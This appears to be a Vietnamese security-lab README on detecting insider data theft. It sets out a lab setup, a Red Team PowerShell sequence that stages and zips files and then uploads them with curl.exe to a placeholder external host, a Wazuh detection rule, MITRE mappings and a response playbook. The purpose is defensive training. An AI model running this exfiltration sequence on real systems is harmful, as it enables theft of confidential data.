




# Lab 3 — Insider Threat đánh cắp dữ liệu nội bộ

> 🎥 **Video hướng dẫn:** [Mở tài liệu video Lab 3](Video/README.md)

## Mục tiêu

Phát hiện người dùng nội bộ thu thập dữ liệu nhạy cảm, đưa vào thư mục staging, nén thành file ZIP và tải ra máy chủ bên ngoài bằng `curl.exe` ngoài giờ làm việc.



## Kiến trúc hạ tầng



| Thành phần | Vai trò | Cấu hình |
|---|---|---|
| `Sales_Endpoint` | Máy trạm nhân viên | Windows, Sysmon Event ID 1 và 3, Wazuh Agent |
| `C:\Company_Data\VIP_Customers` | Dữ liệu mồi nhử | Chỉ chứa tài liệu giả lập |
| External Server | Máy chủ nhận file | Kali Linux, dịch vụ upload trên port 8000 |
| SIEM Setup | Phân tích và correlation | Wazuh trên Ubuntu Server |

## Luồng Red Team

```powershell
New-Item -ItemType Directory -Path 'C:\Users\Public\Music\Staging'
Copy-Item -Path 'C:\Company_Data\VIP_Customers\*' `
  -Destination 'C:\Users\Public\Music\Staging' -Recurse

Compress-Archive `
  -Path 'C:\Users\Public\Music\Staging\*' `
  -DestinationPath 'C:\Users\Public\Music\Personal_Backup.zip'

curl.exe -X POST `
  -F 'files=@C:\Users\Public\Music\Personal_Backup.zip' `
  http://IP_EXTERNAL:8000/upload
```



## Detection Engineering

Custom Wazuh Rule `100502`, level 15, phát hiện:

- Process là `curl.exe`.
- Command line chứa mẫu upload file `-F files=@`.
- Có thể mở rộng correlation với thời gian ngoài giờ, destination IP lạ và sự kiện tạo ZIP trước đó.

MITRE ATT&CK:

- **T1048 — Exfiltration Over Alternative Protocol**
- **T1567 — Exfiltration Over Web Service**

Telemetry Sysmon nên bao phủ:

- Process Creation: PowerShell, `curl.exe`, `7z.exe`, `tar.exe`, `robocopy.exe`.
- Network Connection từ các tiến trình trên.
- File Create cho `.zip`, `.7z`, `.rar`.
- File Create trong `\Staging\` và `\VIP_Customers\`.
- File Delete để phát hiện dọn dấu vết.



## Điều tra Blue Team

- Xác định user, workstation và khung giờ thực hiện.
- Kiểm tra đường dẫn nguồn, staging và file nén.
- Xác minh IP/port đích, lượng dữ liệu và kết nối mạng.
- Dựng timeline: copy → compress → upload → delete.
- Đối chiếu với quyền truy cập dữ liệu và lịch làm việc của nhân viên.
- Thu thập hash file ZIP và danh sách file bên trong.

## Incident Response Playbook

1. Disable tài khoản nghi bị lạm dụng.
2. Cô lập endpoint bằng EDR/NAC.
3. Chặn IP/domain đích và port không cần thiết.
4. Bảo toàn Sysmon, Wazuh archives, PowerShell history và file ZIP.
5. Xác định dữ liệu bị truy cập và nghĩa vụ thông báo.
6. Thu hồi quyền thừa, áp dụng least privilege và DLP.
7. Tuning rule để tránh cảnh báo nhiễu từ hoạt động upload hợp lệ.

## Kết quả mong đợi

Hệ thống chuyển từ trạng thái **“có log nhưng phải đọc thủ công”** sang **“tự động cảnh báo hành vi exfiltration có ngữ cảnh”**.
